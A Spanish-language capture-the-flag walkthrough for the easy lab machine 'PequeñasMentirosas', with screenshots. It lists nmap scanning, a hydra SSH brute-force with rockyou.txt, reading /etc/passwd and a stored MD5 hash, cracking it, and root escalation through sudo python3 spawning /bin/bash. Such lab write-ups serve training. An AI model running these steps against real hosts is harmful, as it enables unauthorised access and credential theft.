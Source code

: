 Maquina: PequeñasMentirosas

Autor: Beafn28

Dificultad: Facil

![Captura de pantalla 2024-11-29 174813](https://github.com/user-attachments/assets/56fb34a8-6dfa-4b9b-8e73-c70ef6442837)

Realizamos un ping a la máquina para verificar la comunicación.
ping 172.17.0.2 -c 1

![Captura de pantalla 2024-11-29 175853](https://github.com/user-attachments/assets/33a60e2d-d9ec-4062-9c83-d19ee6eddb0c)

Escaneamos con Nmap.
sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

![Captura de pantalla 2024-11-29 175932](https://github.com/user-attachments/assets/4580f42b-fe70-41da-92d8-8a481717e3bd)

Observamos que el puerto 80 y 22 estan abiertos.

Accedemos a la página web alojada en esta máquina utilizando un navegador y vemos un posible usuario.

![Captura de pantalla 2024-11-29 180032](https://github.com/user-attachments/assets/0404962e-8e12-4d75-9b21-f783b0268be7)

Usamos hydra.

hydra -l "a" -P /home/ankb/Documents/rockyou.txt ssh://172.17.0.2 

![Captura de pantalla 2024-11-29 190301](https://github.com/user-attachments/assets/cff93c97-d95d-4c76-abda-823858c1a5a2)

Encontramos la contrasena para el usuario y entramos por ssh.

ssh a@172.17.0.2

secret

![Captura de pantalla 2024-11-29 190409](https://github.com/user-attachments/assets/458840c4-d87d-4352-ae02-f553a56cf52e)

Si vemos los usuarios que existen, encontramos spencer.

![Captura de pantalla 2024-11-29 190429](https://github.com/user-attachments/assets/bd353c9c-0fbd-46e6-8517-18516cd09942)

cat /etc/passwd | grep "sh$"

![Captura de pantalla 2024-11-29 190429](https://github.com/user-attachments/assets/68816350-a0e8-4bfe-8f00-016a67dc1dab)

Hacemos una busqueda de archivos .txt de la siguiente manera 

find / -name *.txt 2>/dev/null

![Captura de pantalla 2024-11-29 190546](https://github.com/user-attachments/assets/98ddba2f-faf8-422d-a684-4976b685a6e4)

cat /srv/ftp/hash_spencer.txt

![Captura de pantalla 2024-11-29 190716](https://github.com/user-attachments/assets/76bc252d-d9fe-497f-89a9-f6047f6634ee)

Encontramos con un hash en MD5, usamos CrackStation y nos da la contrasena: password1

![Captura de pantalla 2024-11-29 190825](https://github.com/user-attachments/assets/e3357b55-3e0f-4ae2-b541-42b9e7489018)

Cambiamos al usuario spencer

su spencer

password1

![Captura de pantalla 2024-11-29 190920](https://github.com/user-attachments/assets/9d8e8590-9fa2-43e8-abb1-d3bb4a3bc461)

sudo -l

Con este usuario veremos que podemos ejecutar el binario de /usr/bin/python3 como cualquier usuario sin propocionar contraseña.

![Captura de pantalla 2024-11-29 190935](https://github.com/user-attachments/assets/804d585f-a456-4c13-9b1e-aa812ac74946)

sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"

whoami

![Captura de pantalla 2024-11-29 191000](https://github.com/user-attachments/assets/17ad5d4f-e989-4950-a9d0-44605ea58dfe)
